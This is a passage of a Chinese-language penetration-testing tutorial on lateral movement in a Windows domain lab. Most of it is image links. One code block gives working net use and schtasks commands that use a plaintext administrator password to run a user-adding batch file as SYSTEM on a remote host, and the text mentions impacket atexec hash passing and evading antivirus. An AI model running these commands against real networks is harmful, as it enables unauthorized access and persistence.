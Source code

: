 ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2MIR8cfMoLgyFMIOU0Ky79Pc3QNia94PrHgHHkTduBPnDvGz2KbU7JWw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2T5kuaj4fibWNbMs98UlQiaiatHWhW9uT6Kl1Fz9cD3PCtXtoFUowBJoFQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm23NoeS3Z6iau9CAtdFz3VT1jjIE6YGbEL7EswfrOt60OuVXrEA8xGRdg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2jclYCpe8lxAwVswj28pWFKicsQX312InupA1jUoKpjicawTiay9hYbvHQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



- 
- 
- 
- 
- 
- 
- 

```
#schtask >=Windows2012net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\administrator #建立ipc连接copy add.bat \\192.168.3.32\c$schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY/tr c:\add.bat /F #创建adduser任务对应执行文件schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务schtasks /delete /s 192.168.3.32 /tn adduser /f #删除adduser任务
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2JlgCDkVM9MEBTztyfLzpxEGXI6z2t7ucleAHic6Rc77SmMtq8iaricw9A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2vXekqRCOH4g3nZniazPV0lPgDPbxpBo04mz8JzEu7CpaFCqyyhG04PQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**案例2-横向渗透明文HASH传递atexec-impacket**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2F0tn35hbPVIEp5iauzNY343ElAkG9xwNLwKl9icEe7kquZSXibicdQ29Zw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2eKibBwddiciabxlcIBW1jWZPSOq0iceMpIicYTg0f5YsZxMAfYBHiaadzQxg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

  

  还自带提权。优点:方便快捷,可以支持hash。缺点:第三方工具,会受到杀毒软件或防护的影响。如果目标主机有杀软或防护的话,要对该软件进行免杀



**案例3-横向渗透明文HASH传递批量利用-综合**

  webServer已经拿到权限

  获取密码

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8AUVTLdJmkNc0XiauP1hCm2ut6Em45bnEVwEKOtDQYfsnljMtVOibRzt7CKDbPaK4naKoAkicz0URIQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



获得本机密码
